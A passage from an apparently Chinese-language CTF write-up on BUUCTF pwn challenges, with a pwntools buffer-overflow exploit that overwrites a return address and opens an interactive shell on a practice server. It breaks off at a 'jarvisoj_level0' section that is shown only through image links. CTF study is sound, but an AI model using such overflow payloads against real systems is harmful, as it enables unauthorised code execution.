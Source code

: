 就可以溢出了。

最终的payload为： 

```python
from pwn import *

p = remote('node5.buuoj.cn', 29315)

payload = b'I' * 20  + b'a' * 4 + p32(0x08048F13)

p.sendline(payload)

p.interactive()
```



## jarvisoj_level0



危险函数地址：

![image-20241027114441105](../_media/image-20241027114441105.png)



能操作的地址：

![image-20241027114515968](../_media/image-20241027114515968.png)





最终exp：
